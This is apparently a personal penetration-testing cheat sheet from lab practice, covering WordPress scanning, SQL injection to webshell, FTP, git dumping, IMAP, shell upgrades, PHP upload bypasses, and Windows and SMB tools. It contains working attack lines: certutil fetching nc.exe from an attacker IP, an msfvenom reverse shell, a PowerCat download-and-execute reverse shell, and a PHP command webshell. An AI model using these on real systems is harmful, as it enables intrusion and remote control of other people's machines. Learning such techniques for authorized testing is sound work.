

# Wordpress

- Wordpress scan
- enumerate vulnerable plugins, users, vulrenable themes, timthumbs, plugins
``` wpscan --url {url} --enumerate {vp,u,vt,tt,p} --plugins-detection {mixed, aggressive, passive}```

- Enum plugins & themes for vulns

- Possble to use hashcat reverse hash (Not suggest)

# Non wordpress php
- Check script if have sqli
- Add ``` ' ``` or ``` " ``` to all param to test if can sqli
- check what dbms it is by time-based payload generic 
- Grab nc.exe if the WINDOWS system dont have:
  ``` certutil -urlcache -f http://192.168.45.182:80/nc.exe c:/windows/temp/nc.exe ``` 

  then use the nc.exe (w/ path) to run

1) Find sql injectable input
2) Use an ORDER BY query to determine the number of columns in the vulnerable parameter.
3) To find the correct column, you can test the "@@version" payload for each column to check if you are retrieving the database version.
4) Inject a simple php webshell payload using a "union select" query and "into outfile" write the webshell to the /var/www/html directory.
5) Access the webshell for RCE and execute commands on the server.

# Genearting other reverse shell 
- e.g. exe format
  ``` msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.225 LPORT=4444 -f exe> shell.exe ```

# FTP
- Anonymous ftp user ``` anonymous ``` user name to login & input random password can login 
- use binary mode ``` binary```
- ``` ftp -A ``` to use active mode
- disable passive mode to prevent entering extended passive mode error
  ``` epsv4 off ```
  ``` passive ```
## SSL
- ``` ftp-ssl -z secure -z verif=0 -p {ip} ```

# Landing issue
1. sometimes rmb spawn ANY shell since ssh not support stdin e.g. ``` python3 -c 'import pty; pty.spawn("/bin/bash")' ```

# Built-in web shell library in kali
- ``` find / -name nc.exe 2>/dev/null ```

# Apache server
- start: ``` sudo systemctl start apache2 ```
- check log: ``` tail -f /var/log/apache2/access.log ``` (see if have request / success?)

# Git 
- Show any staged code ``` git status ```
- show changes ``` git show {commit_id} ```
## Git Tools
- https://github.com/internetwache/GitTools?tab=readme-ov-file
### Git Dumper:  
1. ``` ./gitdumper.sh {ip} {store path}```download as much as possible from the found .git repository from webservers which do not have directory listing enabled
2. ``` git checkout -- .``` Restore file via git

# Simple networking
1. 127.0.0.1 = loopback = only host can call | 0.0.0.0 means all traffic ok

# SSH 
1. SSH too open: https://stackoverflow.com/questions/9270734/ssh-permissions-are-too-open ``` chmod 600 ``` or ``` chmod 400 ```
2. If u think password correct but still denied then related to ssh key, find it !

# Netcat 
1. Sometimes have firewall, not all service can nc (e.g. available services already using ,50000 <- want fuck this? 18000 service also on. we can impersonate this port)

# IMAP 
- GUI : Thunderbird , account name: ``` {username}@localhost ```, host = ip 
- Careful attachment
1. connect to the server ``` nc 192.168.244.140 143 ```
2. Login w/ usrname& pwd ``` tag login jonas@localhost SicMundusCreatusEst ```
3. Some useful func  
    ```
        tag SELECT INBOX
        tag STATUS INBOX (MESSAGES)
        tag fetch 1 (BODY[1])
        tag fetch 2:5 BODY[HEADER] BODY[1]
    ```
      
# Upgrade shell to interactive
- https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
- TDLR: 
  ```
  # In reverse shell
  $ python -c 'import pty; pty.spawn("/bin/bash")'
  Ctrl-Z

  # In Kali
  $ stty raw -echo
  $ fg

  # In reverse shell
  $ reset
  $ export SHELL=bash
  $ export TERM=xterm-256color
  $ stty rows <num> columns <cols>
  ```

# OpenVPN
- avoild collision: add ``` mssfix 1400 ``` to openvpn file

# DNS 
- DNS Zone transfer
- https://yogesh-verma.medium.com/zone-transfer-attacks-a-practical-guide-to-detection-and-prevention-2e8346d0297e
- Only works in tcp

# LDAP
1. LDAPsearch (kali)
- ``` ldapsearch -h {host} -x -b "DC=??,DC=local" '(objectClass=User) samaccountname | grep samaccountname | awk '{print $2}' ``` Get user list | remember remove obviously not using account e.g. Guest, system account

# Php
## PHP Wrappers
- some uncommon method
    1. ``` php://filter ```
    2. make command base64 ``` <?php echo system($_GET["cmd"]);?> ```
    3. insert ``` data:// ```
## Advanced PHP Bypass (Apache)
- not just using filetype alternatives
1. upload htaccess with this ``` echo "AddType application/x-httpd-php .dork" > .htaccess ```
2. upload shell.dork with reverse shell content (maybe Ivan Sincek?)
## phpinfo.php
- Look for interesting info e.g. $_DOCUMENT_ROOT (can inject files to the dir)

# Windows
1. Run As Admin
    https://github.com/antonioCoco/RunasCs 
  ```
    . .\RunAs.ps1
    Invoke-RunasCs {username} {password} {cmd} 
  ```

2. PowerCat 
   - netcat for windows
   - https://github.com/besimorhino/powercat
   - ``` Powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.49.211/powercat.ps1');powercat -c 192.168.49.211 -p 5555 -e cmd ```

3. Powershell color enable
   ```
    "$($PSStyle.Background.BrightCyan)Power$($PSStyle.Underline)$($PSStyle.Bold)Shell$($PSStyle.Reset)"
   ```

# SMB 
1. List shares: ``` smbclient -L \\{IP}\ -N ```
2. Connect to share ``` smbclient \\\\{IP}\\{share} -U '{domain}\{username}%{password}' ```

## setuserinfo
- modify user ac info
```
  Level 0: Basic information, such as username and full name.

  Level 1: Additional information, including home directory, script path, and profile path.

  Level 2: Further information, like password age, privileges, and logon script.

  Level 3: Detailed information, including all the above and group memberships.

  Level 4: Even more detailed information, including all the above and security identifier (SID).
```

